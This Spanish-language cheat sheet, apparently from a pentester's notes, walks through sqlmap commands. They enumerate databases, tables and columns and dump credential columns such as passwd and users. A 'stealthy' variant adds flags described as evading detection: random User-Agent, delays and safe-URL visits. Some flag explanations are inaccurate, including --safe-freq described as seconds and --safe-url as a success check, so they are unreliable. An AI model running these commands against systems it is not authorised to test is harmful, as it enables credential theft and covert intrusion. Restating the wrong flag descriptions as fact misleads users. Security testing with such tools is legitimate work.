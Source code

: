 
## Sqlmap

Herramienta de código abierto para realizar pruebas de seguridad en bases de datos. Está diseñada para detectar y explotar vulnerabilidades de inyección SQL en aplicaciones web. SQLmap automatiza el proceso de identificación de estas vulnerabilidades y puede realizar una variedad de ataques, incluyendo la extracción de datos, la ejecución de comandos del sistema y la obtención de información sobre la estructura de la base de datos.

La herramienta soporta diversos motores de bases de datos, como MySQL, PostgreSQL, Oracle y Microsoft SQL Server, entre otros. SQLmap es popular entre profesionales de la seguridad y pentesters debido a su eficacia y flexibilidad

## Forma menos sigilosa

```bash
sqlmap --url <DireccionIP> --dbs --batch --forms

sqlmap --url <DireccionIP> -D <nombreBD> --tables --batch --forms

sqlmap --url <DireccionIP> -D <nombreBD> -T <nombreTabla> --batch --forms
```

> Una vez enumerada la bases de datos, identificamos la tabla y por ultimo las columnas

```bash
sqlmap --url <DireccionIP> -D <nombreBD> -T <nombreTabla> -C <registroColum> (passwd,users) --dump  --batch --forms
```

## Forma sigilosa 

```bash 
sqlmap --url <DireccionIP> --dbs --batch --forms --flush-session --threads=2 --random-agent --delay=5 --time-sec=5 --safe-url=<Direccion> --safe-freq=20 --level=2 --risk=2
```

`--flush-session`: Elimina la sesión actual almacenada por SQLmap antes de comenzar la prueba. Esto garantiza que no se utilicen datos antiguos o desactualizados.

`--threads=2`: Establece el número de hilos (threads) que SQLmap utilizará para realizar las pruebas. Utilizar múltiples hilos puede acelerar el proceso

`--random-agent`: Hace que SQLmap use un User-Agent HTTP aleatorio en cada solicitud. Esto ayuda a evitar la detección y bloqueos basados en el User-Agent

`--delay=5`: Introduce un retraso de 5 segundos entre cada solicitud para evitar sobrecargar el servidor y reducir la posibilidad de detección.

`--time-sec=5`: Establece el tiempo en segundos que SQLmap debe esperar para determinar si una respuesta está retrasada debido a una inyección SQL. Esto se usa para medir la respuesta de la base de datos a consultas inyectadas

`--safe-url=<Direccion>`: Define una URL de "seguridad" que se visitará para verificar si el ataque se realizó correctamente. SQLmap se asegura de que la prueba no afecte negativamente a esta URL

`--safe-freq=20`: Define la frecuencia máxima (en segundos) con la que se debe verificar la URL de seguridad para asegurarse de que el objetivo no se vea comprometido. Esto ayuda a proteger el objetivo principal durante las pruebas

`--level=2`: Establece el nivel de pruebas que SQLmap realizará. El nivel 2 es más exhaustivo que el nivel 1 y prueba más tipos de inyección SQL

`--risk=2`: Define el riesgo del ataque que SQLmap llevará a cabo. El riesgo 2 realiza ataques más agresivos que el riesgo 1, lo que puede hacer más probable la detección de vulnerabilidades

```bash
sqlmap --url <DireccionIP> -D <nombreBD> -T <nombreTabla> -C <registroColum> (passwd,users) --dump --batch --forms --flush-session --threads=2 --random-agent --delay=5 --time-sec=5 --safe-url=<Direccion> --safe-freq=20 --level=2 --risk=2
```

